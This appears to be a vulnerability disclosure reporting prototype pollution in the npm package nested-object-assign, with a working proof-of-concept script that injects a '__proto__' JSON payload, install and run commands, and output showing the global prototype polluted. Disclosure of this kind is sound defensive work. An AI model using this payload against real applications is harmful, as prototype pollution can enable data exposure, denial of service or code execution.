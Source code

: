 # Description

`nested-object-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const assign = require('nested-object-assign')

console.log(`Before: ${{}.polluted}`)
assign({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i nested-object-assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

